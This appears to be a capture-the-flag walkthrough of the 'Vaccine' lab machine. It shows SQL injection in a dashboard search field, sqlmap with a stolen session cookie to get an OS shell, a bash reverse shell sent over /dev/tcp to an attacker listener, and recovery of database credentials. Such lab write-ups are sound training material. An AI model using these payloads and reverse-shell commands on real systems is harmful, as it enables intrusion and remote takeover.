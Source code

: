 With admin:qwerty789 credentials we can enter to the admin panel. In the search field we try some sql injection:

With the value `admin'/**/and/**/1=1))--` we get the following error:

```text
ERROR: syntax error at or near ")" LINE 1: ...ct * from cars where name ilike '%admin'/**/and/**/1=1))--%' ^
```

So we can say that it is vulnerable, lets try with sqlmap using the PHPSESSID cookie retrieved in our browser

```bash
┌──(kali㉿kali)-[~/Documents/StartingPoint/Vaccine]
└─$ sqlmap -u "http://10.129.107.183/dashboard.php?search=test" --cookie="PHPSESSID=ijis7dk7c10vprh4smer11lmqp" --os-shell

 [SNIP]
 
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] y
[01:30:21] [INFO] retrieved: 'postgres'
```

And we got a shell. This shell works really bad so lets open a netcat listener on port 443 and get a reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 443                                    
listening on [any] 443 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.214.36] 51622
bash: cannot set terminal process group (1843): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$

<------------------>

[08:50:19] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.51/443 0>&1"
```

Now lets upgrade shell TTY. Cancel it and open again with bash, not with zsh (cause fg command fails) and execute the following commands

```text
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
Now use fg command, then press enter twice
```

We are in /var/lib/postgresql/11/main folder, go back to /var/lib/postgresql and there we can find the user flag. In folder /var/www/html we can find the dashboard.php file where we can find the postgres:P@s5w0rd! credentials

The terminal is continuosly dying but we have a valid credentials, so we can continue by SSH